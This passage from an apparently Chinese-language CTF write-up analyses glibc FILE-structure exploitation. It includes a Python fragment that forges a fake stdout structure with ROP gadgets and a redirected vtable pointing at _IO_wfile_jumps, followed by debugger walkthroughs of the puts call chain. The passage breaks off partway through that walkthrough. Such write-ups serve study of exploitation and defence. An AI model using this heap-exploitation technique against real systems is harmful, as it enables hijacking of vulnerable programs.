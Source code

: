 ```c
struct _IO_FILE_complete_plus
{
  struct _IO_FILE_complete file;
  const struct _IO_jump_t *vtable;
};
```

## exp中伪造

> 先这里给出exp中伪造的`stdout`结构体 方便我们后面分析

```python
FILE = IO_FILE_plus_struct()
FILE.flags = 0
FILE._IO_read_ptr = pop_rbp
FILE._IO_read_end = heap_addr + 0x470 - 8
FILE._IO_read_base = leave_ret
FILE._IO_write_base = 0
FILE._IO_write_ptr = 1
FILE._lock = heap_addr - 0xc30
FILE.chain = leave_ret
FILE._codecvt = stdout_addr
FILE._wide_data = stdout_addr - 0x48
FILE.vtable = libc.sym['_IO_wfile_jumps'] + libc_base - 0x20
```

## 动调

目的:通过puts函数触发`_IO_wfile_overflow`函数来调用`_IO_wdoallocbuf`函数	

![image-20240515214202580](https://awaqwqa.github.io/img/io_sturct/image-20240515214202580.png)

### 正常的调用链

> 为了搞清楚劫持原理 这里我们分析puts函数的源码

- puts中调用`_IO_file_xsputn`（stdout->vatble(0xd8)->_IO_file_xsputn(0x38)）

  ![image-20240516010449032](https://awaqwqa.github.io/img/io_sturct/image-20240516010449032.png)

  - `r14`此时为 也就是_IO_file_jumps+0x38的位置

    ![image-20240516012651838](https://awaqwqa.github.io/img/io_sturct/image-20240516012651838.png)

  - 而`r14`是通过`mov     r14, [rdi+0D8h]`取出来的  rdi为`_IO_2_1_stdout_` 根据`0xd8`偏移可以知道是`vatble`属性 

    ![image-20240516012935973](https://awaqwqa.github.io/img/io_sturct/image-20240516012935973.png)

- 然后调用`_IO_file_overflow`

  ![image-20240516010742819](https://awaqwqa.github.io/img/io_sturct/image-20240516010742819.png)

- 然后走向`_IO_do_write`
